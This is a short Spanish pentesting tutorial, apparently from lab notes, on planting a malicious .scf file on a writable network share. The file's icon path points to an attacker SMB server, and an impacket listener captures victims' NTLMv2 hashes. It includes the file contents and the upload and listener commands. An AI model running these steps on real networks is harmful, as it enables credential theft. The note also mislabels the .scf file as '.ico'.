 # Para que sirve crear un scf malicioso?
En el caso de que nosotros como atacantes tengamos permisos de escritura en algún recurso compartido a nivel de red puede ser muy crítico, la idea es que podemos crear un archivo `.scf` malicioso y subirlo al recurso comparido, el problema es que el icono de carga de estos archivos en el explorador de Windows puede haber sido envenenado por el atacante haciendo que cuando alguien lo vea, sin necesidad de interactuar con el, se comunique con nuestro equipo y obtener su Hash `NTLMv2`.

# Como efectuar el ataque
Primero debemos crear un archivo .ico malicioso que tenga una estructura como esta:
```
[Shell]
Command=2
IconFile=\\192.168.140.45\smbFolder\patucasa.ico
[Taskbar]
Command=ToggleDesktop
```
Despues podríamos conectarnos al recurso compartido a nivel de red en el cual tenermos permisos de escritura con alguna herramienta como smblcient
```
smbclient -U "wizcorp.local\WizzzStark%Password1" //192.168.46.130/SharedFiles
```
Una vez dentro de la sesión interactica podemos subir el archivo con `put file.ico` y posteriormente nos ponemos en escucha con `smbserver` para crear el recurso que indicamos en el archivo malicioso
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
Y ahora solo toca esperar a que alguien abra el recurso donde está el .ico y obtendremos su `Hash NTLMv2`
